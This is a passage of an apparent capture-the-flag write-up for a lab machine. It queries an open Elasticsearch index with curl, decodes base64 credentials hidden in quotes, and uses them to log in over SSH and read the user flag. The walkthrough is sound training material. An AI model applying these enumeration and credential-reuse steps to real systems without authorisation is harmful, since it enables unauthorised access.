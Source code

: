 ```

```

Now I can `grep` for “clave”. I don’t find anything in `bank`. But I get two hits in `quotes`:

```

root@kali# curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq -c '.hits.hits[]' | grep clave
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}

```

Those translate to:

![1561903121297](https://0xdfimages.gitlab.io/img/1561903121297.png)

Decoding each base64 gives me a username and password:

```

root@kali# echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d 
pass: spanish.is.key
root@kali# echo dXNlcjogc2VjdXJpdHkg | base64 -d
user: security 

```

## Shell As security

The username and password above work for SSH:

```

root@kali# ssh security@10.10.10.115
security@10.10.10.115's password:
Last login: Sun Jun 30 09:17:48 2019 from 10.10.14.51
[security@haystack ~]$

```

That’s enough to grab `user.txt`:

```

[security@haystack ~]$ cat user.txt
04d18bc7...

```
